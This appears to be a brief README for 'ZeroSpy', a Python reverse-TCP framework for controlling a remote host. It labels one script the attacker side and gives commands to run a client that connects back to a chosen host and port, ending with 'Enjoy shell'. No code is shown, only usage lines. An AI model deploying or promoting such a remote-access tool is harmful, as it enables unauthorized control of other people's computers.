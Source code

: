 ﻿# ZeroSpy Framework

Reverse TCP Python Framework for controlling a remote host. Not entirely abandoned but development is going to be rough.

The project basically contains two main files.
1. zero.py ( attacker )
python zero.py
2. connect.py ( client )
python connect.py <host> <port>
Enjoy shell 
